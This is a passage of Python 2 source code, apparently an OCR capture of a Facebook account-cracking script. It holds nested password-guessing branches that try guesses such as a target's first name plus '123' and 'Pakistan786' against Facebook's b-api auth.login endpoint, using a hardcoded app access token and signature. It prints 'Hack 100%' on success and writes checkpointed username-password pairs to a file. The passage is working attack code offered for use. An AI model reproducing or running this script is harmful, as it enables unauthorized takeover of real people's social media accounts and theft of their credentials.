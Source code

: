 							if 'access_token' in q:

								print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass3

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass3

									cek = open("out/checkpoint.txt", "a")

									cek.write(user+"|"+pass3+"\n")

									cek.close()

									cekpoint.append(user+pass3)

								else:

									pass4 = b['first_name'] + '123'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass4

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass4

											cek = open("out/checkpoint.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = 'Pakistan786'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)
